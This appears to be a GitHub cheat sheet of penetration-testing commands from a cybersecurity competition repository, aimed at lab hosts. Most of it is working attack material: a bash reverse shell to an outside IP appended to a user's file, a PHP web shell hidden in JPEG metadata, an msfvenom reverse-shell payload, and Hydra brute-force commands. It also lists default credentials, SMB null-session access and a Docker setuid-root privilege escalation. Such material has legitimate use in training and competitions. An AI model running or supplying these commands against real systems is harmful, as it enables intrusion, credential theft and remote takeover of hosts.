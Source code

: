 <[Back to Main Page](https://github.com/ChristopherFitzsimons/WorldSkills2022Cybersecurity)

# Usefull Commands

## Search for up hosts
```bash
nmap -sn 10.129.150.229
```

## Search for port and service Version
```bash
nmap -sV -p 80 10.129.150.229
```

## Fast Search for common ports
```bash
nmap -F 10.129.150.229
```

## Uses common scripts with Scan
```bash
nmap -sC 10.129.155.61
```

## FTP with anonymous account
```bash
ftp 10.129.150.226
Connected to 10.129.150.226.
220 (vsFTPd 3.0.3)
Name (10.129.150.226:kali): anonymous
331 Please specify the password.
Password: (Password can be anything)
```

## Access SMB unauthenticated
```bash
mbclient -L 10.129.150.229 -U " "%" "
smbclient \\\\10.129.150.229\\WorkShares -U " "%" "
```

## RDP with xfreerdp
```bash
xfreerdp -u:Administrator -v:10.129.150.233
```

## Enumerate Dir Busting
```bash
gobuster dir -u http://10.129.150.236/ -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u http://10.129.155.61/ -w /usr/share/wordlists/dirb/common.txt -x php
```

## SQL Injection with PHP
admin'# will comment code in PHP
for example when set out like below
```php
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
```

## Connect to SQL
```bash
sql -u root -h 10.129.150.236
```

## Common Passwords
|username|password|
|---|---|
|admin|admin123|
|admin|root123|
|admin|password1|
|admin|administrator1|
|admin|changeme1|
|admin|password123|
|admin|qwerty123|
|admin|administrator123|
|admin|changeme123|
|admin|admin|
|guest|guest|
|user|user|
|root|root|
|administrator|password|

## Initiate bash from reverse shell with python
python3 -c "import pty;pty.spawn('/bin/bash')"

## Inject reverse shell into file owned by a user
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.252/1234 0>&1' #" >> hackers

## Kerberos Enumeration
nmap $TARGET -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test'

## HTTP Brute Forcing
```bash
target=10.0.0.1; gobuster -u http://$target -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 150 -l | tee $target-gobuster
target=10.0.0.1; nikto -h http://$target:80 | tee $target-nikto
target=10.0.0.1; wpscan --url http://$target:80 --enumerate u,t,p | tee $target-wpscan-enum
```

## RPC / NetBios / SMB
```bash
rpcinfo -p $TARGET
nbtscan $TARGET
```
### list shares
```bash
smbclient -L //$TARGET -U ""
```

### null session
```bash
rpcclient -U "" $TARGET
smbclient -L //$TARGET
enum4linux $TARGET
```

## SMTP User Enumeration
```bash
smtp-user-enum -U /usr/share/wordlists/names.txt -t $TARGET -m 150
```

## Injecting PHP into JPEG
```bash
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
```

## Cracking Web Forums with Hydra
```bash
hydra 10.10.10.52 http-post-form -L /usr/share/wordlists/list "/endpoit/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s PORT -P /usr/share/wordlists/list
```

## Cracking Common Protocols with Hydra
```bash
hydra 10.10.10.52 -l username -P /usr/share/wordlists/list ftp|ssh|smb://10.0.0.1
```

## MSFVenom 
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.245 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

## Cracking ZIP files
```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt bank-account.zip
```

## Docker Priv Esclation
```bash
echo -e "FROM ubuntu:14.04\nENV WORKDIR /stuff\nRUN mkdir -p /stuff\nVOLUME [ /stuff ]\nWORKDIR /stuff" > Dockerfile && docker build -t my-docker-image . && docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh' && ./sh -c id && ./sh
```
